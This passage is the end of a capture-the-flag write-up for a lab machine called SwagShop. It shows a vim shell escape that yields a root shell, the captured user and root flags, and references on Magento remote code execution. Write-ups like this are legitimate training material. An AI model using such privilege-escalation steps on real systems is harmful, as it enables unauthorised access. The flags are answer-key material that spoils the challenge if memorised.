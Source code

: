 ```bash
~                                                                               
~                                                                               
~                                                                               
~                                                                               
~                                                                               
~                                                                               
~                                                                               
~                                                                               
~                                                                               
~                                                                               
~                                                                               
~                                                                               
~                                                                               
~                                                                               
~                                                                               
~                                                                               
~                                                                               
~                                                                               
~                                                                               
:! /bin/bash
root@swagshop:/var/www/html# hostname -I
10.10.10.140 dead:beef::250:56ff:feb9:2b98 
```
We obtained root shell on `10.10.10.140`.

## CVE
No CVEs were read while pwning this target.

## Machine flags
| Type | Flag | Blood | Date |
| :-: | :-: | :-: | :-: |
| User | 9df6a6fab99b5316c21e323ca72e4ff6 | No | 14-06-2022|
| Root | 8da82ab6e07271f3b881a1bdd48105fa | No | 14-06-2022|

## References
- https://www.inmotionhosting.com/support/edu/magento/how-to-log-into-magento-admin-panel/
- https://blog.scrt.ch/2019/01/24/magento-rce-local-file-read-with-low-privilege-admin-rights/
- https://www.foregenix.com/blog/anatomy-of-a-magento-attack-froghopper